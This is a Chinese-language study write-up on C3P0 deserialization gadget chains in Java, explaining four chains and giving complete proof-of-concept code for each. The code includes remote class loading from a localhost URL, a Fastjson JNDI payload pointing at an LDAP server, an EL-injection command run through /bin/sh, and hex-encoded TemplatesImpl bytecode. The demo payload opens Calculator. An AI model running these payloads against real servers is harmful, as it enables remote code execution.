









# Java安全学习—C3P0链

Author: H3rmesk1t

Data: 2022.03.16

# C3P0 简介
[c3p0](https://www.mchange.com/projects/c3p0/#:~:text=rest%20is%20detail.-,What%20is%20c3p0%3F,-c3p0%20is%20an) is an easy-to-use library for making traditional JDBC drivers "enterprise-ready" by augmenting them with functionality defined by the jdbc3 spec and the optional extensions to jdbc2. As of version 0.9.5, c3p0 fully supports the jdbc4 spec.

In particular, c3p0 provides several useful services:
 - A class whichs adapt traditional DriverManager-based JDBC drivers to the newer javax.sql.DataSource scheme for acquiring database Connections.
 - Transparent pooling of Connection and PreparedStatements behind DataSources which can "wrap" around traditional drivers or arbitrary unpooled DataSources.

The library tries hard to get the details right:
 - c3p0 DataSources are both Referenceable and Serializable, and are thus suitable for binding to a wide-variety of JNDI-based naming services.
 - Statement and ResultSets are carefully cleaned up when pooled Connections and Statements are checked in, to prevent resource- exhaustion when clients use the lazy but common resource-management strategy of only cleaning up their Connections. (Don't be naughty.)
 - The library adopts the approach defined by the JDBC 2 and 3 specification (even where these conflict with the library author's preferences). DataSources are written in the JavaBean style, offering all the required and most of the optional properties (as well as some non-standard ones), and no-arg constructors. All JDBC-defined internal interfaces are implemented (ConnectionPoolDataSource, PooledConnection, ConnectionEvent-generating Connections, etc.) You can mix c3p0 classes with compliant third-party implementations (although not all c3p0 features will work with external implementations of ConnectionPoolDataSource).

# 环境搭建

```xml
<dependencies>
    <dependency>
        <groupId>com.mchange</groupId>
        <artifactId>c3p0</artifactId>
        <version>0.9.5.2</version>
    </dependency>
    <dependency>
        <groupId>org.apache.tomcat</groupId>
        <artifactId>tomcat-catalina</artifactId>
        <version>8.5.27</version>
    </dependency>
</dependencies>
```

# Gadget
## URLCLassLoader
### 过程分析
`com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase`本质上也是一个封装对象, 其中储存了`PropertyChangeSupport`和`VetoableChangeSupport`对象, 用于支持监听器的功能.

这个类在序列化和反序列化时, 要保存内部的`ConnectionPoolDataSource`成员变量, 如果`connectionPoolDataSource`本身是不可序列化的对象, 则使用`ReferenceIndirector`对其进行引用的封装, 返回一个可以被序列化的`IndirectlySerialized`实例对象.

<div align=center></div>

跟进`ReferenceIndirector#indirectForm`, 其中会调用`ConnectionPoolDataSource`的`getReference`方法返回一个`Reference`对象, 并使用`ReferenceSerialized`对象对其封装.

<div align=center></div>

在反序列化时, 会调用其`IndirectlySerialized#getObject`方法重新生成`ConnectionPoolDataSource`对象.

<div align=center></div>

`ReferenceSerialized#getObject`调用`InitialContext#lookup`方法尝试使用`JNDI`来获取相应的对象, 在`contextName`、`env`均为空的情况下, 调用`ReferenceableUtils#referenceToObject`使用`Reference`中的信息来获取.

<div align=center></div>

这里跟进`ReferenceableUtils#referenceToObject`方法, 可以看到其使用了`URLClassLoader`从`URL`中加载了类并实例化, 于是可以通过插入恶意`URL`来触发漏洞.

<div align=center></div>

### POC
根据上文的分析, 构造一个不可序列化的并且实现了`Referenceable`的`ConnectionPoolDataSource`对象, 其`getReference`方法返回带有恶意类位置的`Reference`对象即可. 反序列化`PoolBackedDataSourceBase`时会处理其中的`ConnectionPoolDataSource`, 从而`URLClassLoader`加载指定的恶意类.

```java
package org.h3rmesk1t.C3P0;

import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;
import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.Base64;
import java.util.logging.Logger;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/16 2:31 下午
 */
public class C3P0Exploit1 {

    public static String serialize(Object obj) throws Exception {

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        byte[] expCode = byteArrayOutputStream.toByteArray();
        objectOutputStream.close();
        return Base64.getEncoder().encodeToString(expCode);
    }

    public static void unserialize(String expBase64) throws Exception {

        byte[] bytes = Base64.getDecoder().decode(expBase64);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }

    public static class notSerializable implements ConnectionPoolDataSource, Referenceable {

        String classFactory;
        String classFactoryLocation;

        public notSerializable(String classFactory, String classFactoryLocation) {

            this.classFactory = classFactory;
            this.classFactoryLocation = classFactoryLocation;
        }

        @Override
        public Reference getReference() throws NamingException {
            return new Reference(this.classFactory, this.classFactory, this.classFactoryLocation);
        }

        @Override
        public PooledConnection getPooledConnection() throws SQLException {
            return null;
        }

        @Override
        public PooledConnection getPooledConnection(String user, String password) throws SQLException {
            return null;
        }

        @Override
        public java.io.PrintWriter getLogWriter() throws SQLException {
            return null;
        }

        @Override
        public int getLoginTimeout() throws SQLException {
            return 0;
        }

        @Override
        public void setLogWriter(java.io.PrintWriter out) throws SQLException {
        }

        @Override
        public void setLoginTimeout(int seconds) throws SQLException {
        }

        @Override
        public Logger getParentLogger() throws SQLFeatureNotSupportedException {
            return null;
        }
    }

    public static void main(String[] args) throws Exception {

        PoolBackedDataSourceBase poolBackedDataSourceBase = new PoolBackedDataSourceBase(false);
        ConnectionPoolDataSource connectionPoolDataSource = new notSerializable("Calc", "http://localhost:1209/");
        Field field = poolBackedDataSourceBase.getClass().getDeclaredField("connectionPoolDataSource");
        field.setAccessible(true);
        field.set(poolBackedDataSourceBase, connectionPoolDataSource);

        String serializeData = serialize(poolBackedDataSourceBase);
        System.out.println(serializeData);
        unserialize(serializeData);
    }
}
```

<div align=center></div>

## BeanFactory
### 过程分析
在`URLCLassLoader-Gadget`中利用的加载远程的恶意类, 当目标环境无法出网时, 则无法使用该方法. 在`ReferenceableUtils#referenceToObject`中注意到, 当`var0.getFactoryClassLocation()`值为`null`时, 会默认加载而不是远程加载, 接着在调用`getObjectInstance`方法, 这里可以参考`JNDI`在高版本`JDK`中的利用姿势, 参考[Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java). 通过`Tomcat`的`getObjectInstance`方法调用`ELProcessor`的`eval`方法实现表达式注入, 当目标环境是`Tomcat8`理论上是可以实现无网利用的.

### POC

```java
package org.h3rmesk1t.C3P0;

import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;
import org.apache.naming.ResourceRef;
import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.naming.StringRefAddr;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.Base64;
import java.util.logging.Logger;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/17 5:41 下午
 */
public class C3P0BeanFactory {

    public static String serialize(Object obj) throws Exception {

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        byte[] expCode = byteArrayOutputStream.toByteArray();
        objectOutputStream.close();
        return Base64.getEncoder().encodeToString(expCode);
    }

    public static void unserialize(String expBase64) throws Exception {

        byte[] bytes = Base64.getDecoder().decode(expBase64);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }

    private static class NotSerializable implements ConnectionPoolDataSource, Referenceable {

        private String classFactory;
        private String classFactoryLocation;

        public NotSerializable() {

            this.classFactory = "BeanFactory";
            this.classFactoryLocation = null;
        }

        public NotSerializable(String classFactory, String classFactoryLocation) {

            this.classFactory = classFactory;
            this.classFactoryLocation = classFactoryLocation;
        }

        @Override
        public Reference getReference() throws NamingException {

            ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
            //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
            ref.add(new StringRefAddr("forceString", "x=eval"));
            //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
            ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','\"open -a Calculator\"']).start()\")"));

            return ref;
        }

        @Override
        public PooledConnection getPooledConnection() throws SQLException {
            return null;
        }

        @Override
        public PooledConnection getPooledConnection(String user, String password) throws SQLException {
            return null;
        }

        @Override
        public java.io.PrintWriter getLogWriter() throws SQLException {
            return null;
        }

        @Override
        public int getLoginTimeout() throws SQLException {
            return 0;
        }

        @Override
        public void setLogWriter(java.io.PrintWriter out) throws SQLException {
        }

        @Override
        public void setLoginTimeout(int seconds) throws SQLException {
        }

        @Override
        public Logger getParentLogger() throws SQLFeatureNotSupportedException {
            return null;
        }
    }

    public static void main(String[] args) throws Exception {

        PoolBackedDataSourceBase poolBackedDataSourceBase = new PoolBackedDataSourceBase(false);
        ConnectionPoolDataSource connectionPoolDataSource1 = new NotSerializable();
        Field field = poolBackedDataSourceBase.getClass().getDeclaredField("connectionPoolDataSource");
        field.setAccessible(true);
        field.set(poolBackedDataSourceBase, connectionPoolDataSource1);

        String serializeData = serialize(poolBackedDataSourceBase);
        System.out.println(serializeData);
        unserialize(serializeData);
    }
}
```


## JNDI
### 过程分析
有两个类对`ConnectionPoolDataSource`进行了实现, 跟进其中的`JndiRefConnectionPoolDataSource`, 其中会调用`JndiRefDataSourceBase#setJndiName`方法(`JndiRefForwardingDataSource`继承`JndiRefDataSourceBase`中的`setJndiName`方法)来获取`jndiName`的值.

<div align=center></div>

<div align=center></div>

<div align=center></div>

其次, `JndiRefConnectionPoolDataSource`类中有`LoginTimeout`属性及其`setter`方法, 
其`setter`方法会调用内部`WrapperConnectionPoolDataSource`对象的`setLoginTimeout`方法, 追踪后会发现来到`JndiRefForwardingDataSource#setLoginTimeout`.

<div align=center></div>

<div align=center></div>

<div align=center></div>

跟进`JndiRefForwardingDataSource#inner`, 其会调用`JndiRefForwardingDataSource#dereference`, 再度跟进
此方法中会根据`JndiRefForwardingDataSource#jndiName`属性进行`lookup`问询, 而`jndiName`属性从上文看是可以被`JndiRefConnectionPoolDataSource#setter`方法控制的.

<div align=center></div>

<div align=center></div>

于是, 在`Fastjson`、`Jackson`等环境下, 调用`JndiRefConnectionPoolDataSource`类的`jndiname`、`logintimeout`属性的`setter`方法, 向`jndiname`传入恶意`RMI`服务器地址, 然后调用`logintimeout#setter`方法使受害机去`lookup`设置好的`jndiname`中的恶意地址, 造成`JNDI`注入.

### POC

```java
package org.h3rmesk1t.C3P0;

import com.alibaba.fastjson.JSON;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/17 3:34 下午
 */
public class C3P0JNDI {

    public static void main(String[] args) throws Exception {

        String poc = "{\"@type\": \"com.mchange.v2.c3p0.JndiRefForwardingDataSource\",\n"+"\"jndiName\": \"ldap://127.0.0.1:1389/ciedhl\",\n"+"\"loginTimeout\": 0}";
        JSON.parseObject(poc);
    }

}
```

<div align=center></div>

## Hex 序列化字节加载器
### 过程分析
在`JNDI-Gadget`中是对`ConnectionPoolDataSource`的实现类`JndiRefConnectionPoolDataSource`进行的利用, 而这条`Gadget`利用的则是`WrapperConnectionPoolDataSource`. `WrapperConnectionPoolDataSource`继承于`WrapperConnectionPoolDataSourceBase`, 在`WrapperConnectionPoolDataSourceBase`中存在属性`userOverridesAsString`及其`setter`方法`setUserOverridesAsString`, 触发`fireVetoableChange`事件处理.

<div align=center></div>

在`WrapperConnectionPoolDataSource`中存在方法`setUpPropertyListeners`, 其中有一个判断语句, 当其属性为`userOverridesAsString`时, 将调用`parseUserOverridesAsString`方法.

<div align=center></div>

跟进`parseUserOverridesAsString`方法, 先对`userOverridesAsString`进行截取操作, 然后完成十六进制解码, 然后调用`fromByteArray`函数, 最终触发反序列化操作.

<div align=center></div>

<div align=center></div>

<div align=center></div>

<div align=center></div>

### POC
在`Fastjson`、`Jackson`环境, 此`Gadget`更适合在不出网环境下利用.

```java
package org.h3rmesk1t.C3P0;

import com.alibaba.fastjson.JSON;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/17 4:38 下午
 */
public class C3P0Hex {

    public static Field getField (final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }

    public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static PriorityQueue CommonsCollections4() throws Exception {

        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = pool.makeClass("c3p0Exploit");
        ctClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        String shell = "java.lang.Runtime.getRuntime().exec(\"open -a Calculator\");";
        ctClass.makeClassInitializer().insertBefore(shell);

        byte[] shellCode = ctClass.toBytecode();
        byte[][] targetCode = new byte[][]{shellCode};

        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_name", "h3rmesk1t");
        setFieldValue(templatesImpl, "_bytecodes", targetCode);
        setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templatesImpl})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);

        PriorityQueue priorityQueue = new PriorityQueue(2);
        priorityQueue.add(1);
        priorityQueue.add(2);
        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(priorityQueue, transformingComparator);

        return priorityQueue;
    }

    public static byte[] toByteArray(InputStream in) throws Exception {
        byte[] classBytes;
        classBytes = new byte[in.available()];
        in.read(classBytes);
        in.close();
        return classBytes;
    }

    public static String bytesToHexString(byte[] bArray, int length) {
        StringBuffer sb = new StringBuffer(length);

        for(int i = 0; i < length; ++i) {
            String sTemp = Integer.toHexString(255 & bArray[i]);
            if (sTemp.length() < 2) {
                sb.append(0);
            }

            sb.append(sTemp.toUpperCase());
        }
        return sb.toString();
    }

    public static void main(String[] args) throws Exception {

        PriorityQueue queue = CommonsCollections4();

        String filePath = "src/main/java/org/h3rmesk1t/C3P0/ser.bin";
        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream(filePath));
        outputStream.writeObject(queue);
        outputStream.close();
        InputStream inputStream = new FileInputStream(filePath);
        byte[] bytes = toByteArray(inputStream);
        String hexString = bytesToHexString(bytes, bytes.length);
        
        String poc = "{\n\t\"@type\": \"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\",\n\t\"userOverridesAsString\": \"HexAsciiSerializedMap:" + hexString + ";\"\n}";
        System.out.println(poc);
        JSON.parseObject(poc);
    }
}
```

<div align=center></div>


# 参考
 - [c3p0的三个gadget](http://redteam.today/2020/04/18/c3p0%E7%9A%84%E4%B8%89%E4%B8%AAgadget/)
 - [Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)